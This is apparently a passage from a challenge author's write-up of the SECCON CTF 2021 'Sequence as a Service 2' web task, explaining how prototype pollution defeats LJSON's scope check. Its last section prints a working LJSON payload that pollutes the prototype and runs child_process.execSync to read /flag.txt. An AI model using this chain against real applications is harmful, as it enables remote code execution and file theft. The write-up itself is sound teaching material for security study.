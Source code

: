 ```javascript

const main = async () => {
  const text = await (
    await fetch(`${SECCON_URL}/api/getValue?${params}`)
  ).text();
  console.log(text);
};
main();
```

`LJSON.parse` disallows usage of variables that don't exist in the scope:

```javascript
// From: https://github.com/MaiaVictor/LJSON/blob/0c06399baddc08ede6457a59505e188ec0828dab/LJSON.js#L315-L324
function LJSON_variable(binders,scope){
    return function(){
        var name = P.word();
        if (name === null)
            return null;
        if (scope[name] === undefined)
            throw ("LJSON parse error: "+name+" is not defined");
        return toName(scope[name]);
    };
};
```

However, by the above Prototype Pollution, you can use the variable (function) `eval` although it doesn't exist in the scope.

### Unintended Solutions

**[ Prototype Pollution to `Array.prototype.join` ]**

- https://satoooon1024.hatenablog.com/entry/2021/12/15/SECCON_CTF_2021_Writeup#Sequence-as-a-Service-2-19-solves

**[ `require('./lib.js').__proto__ = require('child_process')` ]**

- https://nanimokangaeteinai.hateblo.jp/entry/2021/12/14/223037#Web-210-Sequence-as-a-Service-2-19-solves

**[ Prototype Pollution using `toString` defined as an impure function ]**

```javascript
LJSON.stringify(($, map, n) => $(",",
  $(",",
    $(",", $("set", map, 0, $("set", map, "__proto__", 0))),
    $(",",
      $("set", map, "toString", () =>
        $(
          ",",
          $("set", map, 100, $("get", map, 101)),
          $(",", $("set", map, 101, "constructor"), $("get", map, 100))
        )
      ),
      $("set", $("get", map, 0), "_constructor", $("set", $, map, 0))
    ),
  ),
  $(
    "_constructor",
    'return global.process.mainModule.constructor._load("child_process").execSync("cat /flag.txt").toString()'
  )(),
));
```


[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/